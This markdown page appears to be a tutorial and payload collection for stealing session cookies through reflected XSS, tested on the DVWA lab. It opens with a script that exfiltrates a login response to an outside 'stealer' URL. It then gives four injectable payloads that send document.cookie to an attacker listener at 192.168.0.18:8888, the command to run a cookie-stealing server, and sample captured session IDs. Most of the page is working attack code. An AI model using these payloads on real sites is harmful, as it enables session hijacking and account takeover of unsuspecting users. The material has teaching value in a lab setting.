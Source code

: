
```
<script>
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() { if (xhr.readyState == 4)
 
{
   prompt('You are hacked , your session='+xhr.response);}
   document.location.replace('//yassergersy.com/stealer?data='+xhr.response');
}
xhr.open('POST', '/account/login',true);
xhr.withCredentials = true;
xhr.send(null);
</script>
```

<br>
<br>
https://medium.com/@yassergersy/xss-to-session-hijack-6039e11e6a81

##
##
##


# Steal Cookies with Reflected XSS

This is a basic Reflected XSS attack to steal cookies from a user of a vulnerable website. The attack string comes from Ch. 12, p. 436 of [The Web Application Hacker's Handbook, 2nd Ed.][3]

This was tested against the [Damn Vulnerable Web Application][5] (DVWA) v1.8. DVWA can be installed alone or as part of the excellent [OWASP Broken Web Applications Project][6] (BWA) v1.2.



### Assumptions:
1. You've already identified website (and field or parameter) that is vulnerable to Reflected XSS.
1. You're able to run shell commands on a Linux system that is reachable by the vulnerable web app. You'll probably need to run the Python script (mentioned below) as root or prepended with `sudo`.

## Run the Cookie Stealer Python Script

You'll need a place to capture the stolen cookies. [lnxg33k][1] has written an excellent Python script called [XSS-cookie-stealer.py][2]. Run it with Python 2.6 or higher. It is just an HTTP server which logs each inbound HTTP connection and all the cookies contained in that connection.

```shell
python XSS-cookie-stealer.py
```

The resulting output, at minimum, will be this:

```shell
Started http server

```

You're not there yet. Now you have to launch the actual attack. Below are a couple of choices.

## Inject the XSS Attack Code
Below are four versions of the same attack.

### 1. `alert()` Before Stealing the Cookie
Run this version of the attack code if you want to see the cookie in a JS `alert()` as confirmation that the injection is successfully exploiting the vulnerability on the target site. Note that the cookie will not upload to your Python listener until the victim closes the JS `alert()` dialog.

```javascript
<script>
alert(document.cookie);
var i=new Image;
i.src="http://192.168.0.18:8888/?"+document.cookie;
</script>
```

### 2. Silent One-Liner
This one is the same but no `alert()` and all on one line.

```js
<script>var i=new Image;i.src="http://192.168.0.18:8888/?"+document.cookie;</script>
```

### 3. `<img>` Tag Instead of `<script>` Tags
Don't use this one! It works but calls `onerror()` in a loop, filling up your stolen cookie log:
```html
<img src=x onerror=this.src='http://192.168.0.18:8888/?'+document.cookie;>
```

### 4. `<img>` Tag and Without the Infinite Loop
This one works and will only steal the cookie once. I adapted it from a posting on the old [kirupa.com][4] forum.
```html
<img src=x onerror="this.src='http://192.168.0.18:8888/?'+document.cookie; this.removeAttribute('onerror');">
```

## Harvest the Stolen Cookies
If you successfully get inject your cookie-stealing XSS script into a vulnerable website, and the script is subsequently executed in a victim's browser, you'll see a cookie appear in the STDOUT of the shell running the Python script:

```shell
2017-02-09 10:05 PM - 192.168.0.254	Mozilla/5.0 (Macintosh; Intel Mac OS X 10.10; rv:51.0) Gecko/20100101 Firefox/51.0
------------------------------------------------------------------------------------------------------------------
Cookie Name			Value
------------------------------------------------------------------------------------------------------------------
acopendivids			['swingset,jotto,phpbb2,redmine']
security			['low']
acgroupswithpersist			['nada']
PHPSESSID			['93l9ahf1120bkp79t5ehbkc0m4']
```


[1]: https://github.com/lnxg33k
[2]: https://github.com/lnxg33k/misc/blob/master/XSS-cookie-stealer.py
[3]: http://www.wiley.com/WileyCDA/WileyTitle/productCd-1118026470.html
[4]: https://www.kirupa.com/forum/showthread.php?377664-onerror-within-the-img-tag
[5]: http://www.dvwa.co.uk/
[6]: http://www.owaspbwa.org/
